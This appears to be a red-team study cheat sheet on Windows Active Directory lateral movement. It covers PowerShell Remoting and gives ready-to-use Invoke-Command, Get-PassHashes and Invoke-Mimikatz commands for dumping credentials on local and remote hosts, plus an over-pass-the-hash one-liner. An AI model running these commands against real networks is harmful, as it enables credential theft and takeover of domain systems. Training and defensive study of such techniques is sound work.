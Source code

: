 # Lateral Movement
## PowerShell Remoting
- Enabled by deafult on server 2012 onwards.
- On desktop windows machines you may need to enable it `Enable-PSRemoting` (Require admin privs).
- You get elevated shell on remote system if admin creds are used to authenticate (Default setting).

### One-to-One
#### PSSession
- interactive
- Runs in a new process (wsmprovhost)
- Is stateful.
#### Useful cmdlets
```powershell
New-PSSession
Enter-PSSession
```
### One-to-many
- Also know as Fan-Out-Remoting
- Non-interactive
- Executes commands parallely
- Runs Commands and scripts on
-- Multiple computers
-- In disconnected sessions (v3)
-- As background jobs and more
#### Useful cmdlets
```powershell
Invoke-Command -ComputerName <ComputerName>
Invoke-Command -ComputerName (Get-Content <List-of-servers>)
Invoke-Command -ComputerName -Credential # To pass username/password
```
#### Usage Example
```powershell
#To execute a command remotely 
Invoke-Command -scriptblock {Get-Process} -ComputerName <value> -Credential <Creds>

#To execute script remotely
Invoke-Command -FilePath C:\Path\Get-PassHashes.ps1 -ComputerName (Get-Content <List-of-servers>)

#Whenever you get an error when executing commands/scripts on remote machine check for Language mode because if it's in constrained mode you won't be able to execute anything but built-in cmdlets
Invoke-Command -scriptblock {$ExecutionContext.SessionState.LanguageMode} -ComputerName <value> -Credential <Creds>
```
## Mimikatz
- This script is used to dump credentials,tickets and more.
- Mimikatz with PowerShell us done without dropping mimikatz.exe to disk.
- It is useful for passing and relaying hashes,tickets and for many active directory attacks.
- The script needs admin privs for dumping creds from local machine.
#### Usage
```powershell
#Dump credentials on a local machine (Default)
Invoke-Mimikatz -DumpCreds

#Dump creds on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("system1","system2")

#Above commands uses PowerShell cmdlet "Invoke-Command" to do their jobs.
```
#### "Over pass the hash" generate tokens from hashes.
```powershell
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain <DOMAIN> /ntlm:<NTLM> /run:powershell.exe"'
```
